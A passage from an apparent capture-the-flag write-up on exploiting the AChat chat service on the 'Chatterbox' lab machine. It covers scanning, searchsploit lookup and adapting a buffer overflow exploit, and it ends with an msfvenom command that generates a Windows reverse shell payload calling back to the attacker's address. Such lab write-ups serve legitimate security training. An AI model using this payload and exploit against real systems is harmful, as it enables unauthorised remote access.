 We have one port open.

- **Port 9256**:\*\* \*\*running AChat chat system

Before we move on to enumeration, let’s make some mental notes about the scan results.

- Port 9256 is running some kind of chat system that I’m not familiar with, so the first we’ll do is google it to figure out what it is. Then we’ll run searchsploit on it to see if it is associated to any known vulnerabilities.

# Enumeration

Doing a quick google search on the service tells us that AChat is a software that enables you to chat on your local network. It can also be used to share and send files/images to other users.

Now that we know what it is, let’s run searchsploit on it.

![](../img/Chatterbox Writeup wo Metasploit/1_-bEFqyrr_dYyPmeSzTn68A.png)

It’s vulnerable to a remote buffer overflow and there is both apython and metasploit exploit for it. We will of course work with the non-metasploit solution.

Copy the python script to your current directory.

```
searchsploit -m 36025
```

Looking at the exploit code we make note of the following things:

- It looks like your classic stack buffer overflow that allows you to overflow the buffer and include malicious shell code that will get executed on the box.

- The exploit author was nice enough to give us the msfvenom command that generates the malicious payload (*‘buf’ *variable) including the bad characters to avoid. This makes our life so much easier! The command simply spawns the _calc.exe_ program on the target machine. So we’ll have to change the command to send a reverse shell back to our attack machine.

- We also need to change the *server_address *to that of the IP address of Chatterbox.

- There seems to be a length limit of 1152 bytes on the payload. Anything that exceeds that will probably not work. We’ll keep that in mind when using msfvenom to generate our reverse shell.

# Initial Foothold

Use msfvenom to generate the reverse shell payload.

```
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
